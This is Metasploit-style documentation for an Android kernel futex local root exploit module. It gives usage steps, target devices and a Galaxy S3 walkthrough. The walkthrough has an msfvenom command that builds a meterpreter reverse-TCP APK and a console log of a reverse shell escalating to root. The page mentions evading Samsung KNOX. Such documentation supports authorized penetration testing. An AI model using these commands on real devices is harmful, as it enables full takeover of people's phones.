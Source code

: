 ## Vulnerable Application

This module exploits a Linux Kernel vulnerability, which is also available in the Android kernel, in a Linux subsystem call of `futex`.
It does not trip (set off) Samsung NOX as of the time of writing.

Failed exploitation attempts may reboot the device.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable android device
  3. Do: ```use exploit/android/local/futex_requeue```
  4. Select an appropriate target
  5. Do: ```set lhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Targets

  **0   Automatic Targeting**

  Attempt to automatically determine the target

  **1   Default**

  Nexus 4, 5, 7, etc

  **2   New Samsung**

  Samsung S3, S4, S5, etc

  **3   Old Samsung**

  Samsung Note 2, etc

  **4   Samsung Grand**

  Samsung Grand, etc

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

  The following was used to generate a meterpreter Android application, and it was installed to the device.

  ```
  msfvenom -p android/meterpreter_reverse_tcp LHOST=111.111.1.111 LPORT=9999 -o /var/www/html/android.apk
  ```

  ```
[*] Processing android.128.rb for ERB directives.
resource (android.128.rb)> use exploit/multi/handler
resource (android.128.rb)> set payload android/meterpreter_reverse_tcp
payload => android/meterpreter_reverse_tcp
resource (android.128.rb)> set lport 9999
lport => 9999
resource (android.128.rb)> set lhost 111.111.1.111
lhost => 111.111.1.111
resource (android.128.rb)> run
[*] Started reverse TCP handler on 111.111.1.111:9999 
[*] Meterpreter session 1 opened (111.111.1.111:9999 -> 222.222.2.222:56975) at 2019-10-22 20:56:34 -0400
WARNING: Local file /root/metasploit-framework/data/meterpreter/ext_server_stdapi.jar is being used
WARNING: Local files may be incompatible with the Metasploit Framework

meterpreter > sysinfo
Computer    : localhost
OS          : Android 4.4.2 - Linux 3.4.0-1542239 (armv7l)
Meterpreter : dalvik/android
meterpreter > getuid
Server username: u0_a191
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/android/local/futex_requeue 
msf5 exploit(android/local/futex_requeue) > set session 1
session => 1
msf5 exploit(android/local/futex_requeue) > set verbose true
verbose => true
msf5 exploit(android/local/futex_requeue) > set lhost 111.111.1.111
lhost => 111.111.1.111
msf5 exploit(android/local/futex_requeue) > check

[+] Android version 4.4.2 appears to be vulnerable
[*] The target appears to be vulnerable.
msf5 exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444 
[+] Android version 4.4.2 appears to be vulnerable
[*] Found device: d2vzw
[*] Fingerprint: Verizon/d2vzw/d2vzw:4.4.2/KOT49H/I535VRUDNE1:user/release-keys
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/thelr
[*] Loaded library /data/data/com.metasploit.stage/files/thelr, deleting
[*] Waiting 300 seconds for payload
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:37502) at 2019-10-22 20:57:45 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
  ```
